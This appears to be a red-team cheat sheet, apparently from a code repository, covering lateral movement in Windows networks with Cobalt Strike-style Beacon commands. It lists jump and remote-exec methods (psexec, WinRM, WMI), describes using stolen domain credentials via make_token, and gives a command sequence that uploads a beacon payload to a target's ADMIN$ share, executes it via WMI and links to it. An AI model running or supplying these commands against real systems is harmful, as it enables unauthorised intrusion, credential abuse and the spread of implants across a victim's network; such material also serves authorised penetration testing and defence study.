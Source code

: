 ## Lateral movement
#### Jump
```
jump [method] [target] [listener]

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

#### Remote-exec
```
remote-exec [method] [target] [command]

    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```

#### Using credentials
- Each of these strategies are compatible with the various credential and impersonation methods described in the next section, Credentials & User Impersonation. For instance, if you have plaintext 
- credentials of a domain user who is a local administrator on a target, use ```make_token``` and then ```jump``` to use that user's credentials to move laterally to the target.

### PowerShell Remoting
#### Getting the architectur
- for winrm or winrm64 with jump
```
remote-exec winrm <HOSTNAME> (Get-WmiObject Win32_OperatingSystem).OSArchitecture
```

#### Jump winrm smb beacon
```
jump winrm64 <HOSTNAME> smb
```

### PSexec
```
jump psexec64 <HOSTNAME> smb
```

### WMI
```
cd \\<HOSTNAME>\ADMIN$
upload C:\Payloads\beacon-smb.exe
remote-exec wmi <HOSTNAME> C:\Windows\beacon-smb.exe
link <HOSTNAME>
```
